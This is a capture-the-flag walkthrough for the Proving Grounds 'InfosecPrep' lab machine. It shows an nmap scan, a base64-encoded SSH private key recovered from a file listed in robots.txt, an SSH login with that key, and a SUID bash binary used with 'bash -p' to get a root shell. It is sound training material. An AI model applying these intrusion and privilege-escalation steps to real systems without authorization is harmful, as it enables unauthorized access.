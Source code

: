 ```yaml
---
layout: default
title: InfosecPrep
parent: Proving Grounds Play
nav_order: 19
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/infosecprep]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.89
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 13:04 EST
Nmap scan report for 192.168.160.89
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/infosecprep/index.png)

The web site indicates there is a user _oscp_

Robots.txt indicates a root level file _secret.txt_

![robots](../../../assets/images/ctfs/proving_grounds/infosecprep/robots.png)

_/secret.txt_ contains string of text that appears to be Base64 encoded.

![encoded](../../../assets/images/ctfs/proving_grounds/infosecprep/encoded.png)

Decoding the Base64 encoded string provides a RSA private key.

![rsa](../../../assets/images/ctfs/proving_grounds/infosecprep/rsa.png)

# Exploitation

---

We have an RSA private key and a user _oscp_.

We can use both to connect to the SSH service running on the target.

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/infosecprep]
└─$ ssh -i id_rsa oscp@192.168.160.89
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 12 Nov 2023 06:07:32 PM UTC

  System load:  0.0                Processes:             211
  Usage of /:   25.4% of 19.56GB   Users logged in:       0
  Memory usage: 62%                IPv4 address for eth0: 192.168.160.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
-bash-5.0$

```

# Post-Exploitation

---

## Check SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

We can run _/usr/bin/bash_ with root privileges to get a root shell.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# whoami
root
```
